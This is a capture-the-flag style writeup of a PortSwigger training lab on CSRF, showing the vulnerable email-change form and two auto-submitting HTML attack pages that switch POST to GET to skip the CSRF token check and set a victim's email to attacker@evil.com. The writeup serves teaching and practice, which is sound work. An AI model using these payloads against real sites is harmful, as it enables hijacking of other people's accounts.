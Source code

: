 # CSRF where token validation depends on request method | Dec 15, 2022

## Introduction

Welcome to my another writeup! In this Portswigger Labs [lab](https://portswigger.net/web-security/csrf/lab-token-validation-depends-on-request-method), you'll learn: CSRF where token validation depends on request method! Without further ado, let's dive in.

- Overall difficulty for me (From 1-10 stars): ★☆☆☆☆☆☆☆☆☆

## Background

This lab's email change functionality is vulnerable to CSRF. It attempts to block CSRF attacks, but only applies defenses to certain types of requests.

To solve the lab, use your exploit server to host an HTML page that uses a [CSRF attack](https://portswigger.net/web-security/csrf) to change the viewer's email address.

You can log in to your own account using the following credentials: `wiener:peter`

## Exploitation

**Home page:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/CSRF/CSRF-2/images/Pasted%20image%2020221215003103.png)

**Login as user `wiener`:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/CSRF/CSRF-2/images/Pasted%20image%2020221215003134.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/CSRF/CSRF-2/images/Pasted%20image%2020221215003143.png)

**In the previous lab, we found that the email change functionality is vulnerable to CSRF.**

**Now we can inspect the form:**
```html
<form class="login-form" name="change-email-form" action="/my-account/change-email" method="POST">
    <label>Email</label>
    <input required type="email" name="email" value="">
    <input required type="hidden" name="csrf" value="JMWikHWXdcNk0gmDyxXOhayb1J17hGXw">
    <button class='button' type='submit'> Update email </button>
</form>
```

**This time, the form also has a hidden CSRF token!**

**Now, we can use the `exploit server` to deliver the exploit to the victim:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/CSRF/CSRF-2/images/Pasted%20image%2020221215003505.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/CSRF/CSRF-2/images/Pasted%20image%2020221215003522.png)

**Let's try to craft a form that performs CSRF attack!**
```html
<html>
	<head>
		<title>CSRF-2</title>
	</head>
	<body>
		<form action="https://0ac8002903f73b0cc0c8c73c00e50044.web-security-academy.net/my-account/change-email" method="POST">
		    <input type="hidden" name="email" value="attacker@evil.com">
		</form>

		<script>
			document.forms[0].submit();
		</script>
	</body>
</html>
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/CSRF/CSRF-2/images/Pasted%20image%2020221215003650.png)

**Now, we can click the `View exploit` to test the exploit locally:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/CSRF/CSRF-2/images/Pasted%20image%2020221215003719.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/CSRF/CSRF-2/images/Pasted%20image%2020221215003739.png)

**However, we can't modify our email address, as the form is missing the CSRF token!**

**To bypass the CSRF token, we can try to change our method from POST to GET:**
```html
<html>
	<head>
		<title>CSRF-2</title>
	</head>
	<body>
		<form action="https://0ac8002903f73b0cc0c8c73c00e50044.web-security-academy.net/my-account/change-email" method="GET">
		    <input type="hidden" name="email" value="attacker@evil.com">
		</form>

		<script>
			document.forms[0].submit();
		</script>
	</body>
</html>
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/CSRF/CSRF-2/images/Pasted%20image%2020221215004136.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/CSRF/CSRF-2/images/Pasted%20image%2020221215004203.png)

**We've successfully changed our email address to attacker's controlled value!**

**Next, to change other users' email, we can click the `Deliver exploit to victim` button:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/CSRF/CSRF-2/images/Pasted%20image%2020221215004316.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/CSRF/CSRF-2/images/Pasted%20image%2020221215004328.png)

We did it!

# What we've learned:

1. CSRF where token validation depends on request method